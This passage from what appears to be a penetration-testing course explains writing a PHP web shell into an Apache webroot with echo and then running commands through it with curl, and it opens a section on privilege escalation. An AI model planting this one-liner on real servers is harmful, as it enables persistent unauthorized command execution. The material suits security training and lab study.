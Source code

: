 We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

```

* * *

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

![](HxefXx9SGocY.png)

Another option is to use `cURL`:

```shell
curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a `Python` script to automate this process and give us a semi-interactive web shell right within our terminal.


# Privilege Escalation

* * *

Our initial access to a remote server is usually in the context of a low-privileged user, which would not give us complete access over the box. To gain full access, we will need to find an internal/local vulnerability that would escalate our privileges to the `root` user on `Linux` or the `administrator`/ `SYSTEM` user on `Windows`. Let us walk through some common methods of escalating our privileges.

* * *
